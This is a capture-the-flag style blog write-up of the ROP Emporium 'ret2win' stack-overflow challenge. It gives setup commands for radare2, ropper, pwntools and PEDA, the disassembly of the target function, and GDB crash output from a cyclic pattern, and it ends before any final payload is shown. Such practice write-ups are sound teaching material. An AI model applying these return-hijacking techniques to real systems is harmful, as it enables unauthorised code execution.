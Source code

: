 ```yaml
---
layout: post
title:  "Ret2win"
date:   21-02-2020 13:34:34
categories: exploitation
tags: Exploitation ROP_Emporium Ret2win
---
```


Requirement 
===========
First we download the zip file for the challenges:
{% highlight bash%}
wget https://ropemporium.com/binary/rop_emporium_all_challenges.zip
unzip rop_emporium_all_challenges.zip
{% endhighlight %}
Radare2
>Radare2 is a complete framework for reverse-engineering and analyzing binaries; composed of a set of small utilities that can be used together or independently from the command line.

{% highlight bash%}
apt-get install git
git clone https://github.com/radare/radare2
cd radare2
sys/install.sh
{% endhighlight %}
Ropper
>You can use ropper to display information about binary files in different file formats and you can search for gadgets to build rop chains for different architectures (x86/X86_64, ARM/ARM64, MIPS/MIPS64, PowerPC/PowerPC64, SPARC64). For disassembly ropper uses the awesome Capstone Framework.

{% highlight bash%}
apt install python-pip
pip install ropper
{% endhighlight %}
Pwntools
>Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

{% highlight bash%}
apt-get update
apt-get install python2.7 python-pip python-dev git libssl-dev libffi-dev build-essential
pip install --upgrade pip
pip install --upgrade pwntools
{% endhighlight %}
Peda
>PEDA - Python Exploit Development Assistance for GDB

{% highlight bash%}
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
{% endhighlight %}

Ret2win
=======
A first glance at the binary using r2 shows for main functions:
{% highlight bash%}
0x00400746    1 111          sym.main
0x004007b5    1 92           sym.pwnme
0x00400811    1 32           sym.ret2win
{% endhighlight %}
Upon further examination, we can see to which address we need to return:
{% highlight bash%}
/ (fcn) sym.ret2win 32
|   sym.ret2win ();
|           0x00400811      55             push rbp
|           0x00400812      4889e5         mov rbp, rsp
|           0x00400815      bfe0094000     mov edi, str.Thank_you__Here_s_your_flag: ; 0x4009e0 ; "Thank you! Here's your flag:"
|           0x0040081a      b800000000     mov eax, 0
|           0x0040081f      e8ccfdffff     call sym.imp.printf
|           0x00400824      bffd094000     mov edi, str.bin_cat_flag.txt ; 0x4009fd ; "/bin/cat flag.txt"
|           0x00400829      e8b2fdffff     call sym.imp.system
|           0x0040082e      90             nop
|           0x0040082f      5d             pop rbp
\           0x00400830      c3             ret
{% endhighlight %}
Next we need to determine our offset:
{% highlight bash%}
Creating our patterne:
gdb ret2win
pattern_create 200
or 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
{% endhighlight %}
Once we provide our pattern to the binary we are greeted with:
{% highlight bash%}
Program received signal SIGSEGV, Segmentation fault.                                                      
[----------------------------------registers-----------------------------------]                          
RAX: 0x7fffffffe130 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")                                 
RBX: 0x0                                                                                                  
RCX: 0x0                                                                                                  
RDX: 0x7ffff7fa4590 --> 0x0                                                                               
RSI: 0x6022a1 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'"...)
RDI: 0x7fffffffe131 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")                                  
RBP: 0x6141414541412941 ('A)AAEAAa')                                                                      
RSP: 0x7fffffffe158 ("AA0AAFAAb")                                                                         
RIP: 0x400810 (<pwnme+91>:      ret)                                                                      
R8 : 0x7fffffffe130 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")                                 
R9 : 0x7ffff7fa9500 (0x00007ffff7fa9500)                                                                  
R10: 0x410                                                                                                
R11: 0x246                                                                                                
R12: 0x400650 (<_start>:        xor    ebp,ebp)                                                           
R13: 0x7fffffffe240 --> 0x1                                                                               
R14: 0x0                                                                                                  
R15: 0x0                                                                                                  
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)                         
[-------------------------------------code-------------------------------------]                                                                                                                                    
   0x400809 <pwnme+84>: call   0x400620 <fgets@plt>                                                       
   0x40080e <pwnme+89>: nop                                                                               
   0x40080f <pwnme+90>: leave                                                                             
=> 0x400810 <pwnme+91>: ret                                                                               
   0x400811 <ret2win>:  push   rbp                                                                        
   0x400812 <ret2win+1>:        mov    rbp,rsp                                                            
   0x400815 <ret2win+4>:        mov    edi,0x4009e0                                                       
   0x40081a <ret2win+9>:        mov    eax,0x0                                                            
[------------------------------------stack-------------------------------------]                          
0000| 0x7fffffffe158 ("AA0AAFAAb")                                                                        
0008| 0x7fffffffe160 --> 0x400062 --> 0x1f8000000000000                                                   
0016| 0x7fffffffe168 --> 0x7ffff7e0ebbb (<__libc_start_main+235>:       mov    edi,eax)                                                                                                                             
0024| 0x7fffffffe170 --> 0x0                                                                              
0032| 0x7fffffffe178 --> 0x7fffffffe248 --> 0x7fffffffe53a ("/root/ropemporium/ret2win")                  
0040| 0x7fffffffe180 --> 0x100040000                                                                      
0048| 0x7fffffffe188 --> 0x400746 (<main>:      push   rbp)                                               
0056| 0x7fffffffe190 --> 0x0                                                                              
[------------------------------------------------------------------------------]                          
Legend: code, data, rodata, value                                                                         
Stopped reason: SIGSEGV                                                                                   
0x0000000000400810 in pwnme ()   
{% endhighlight %}
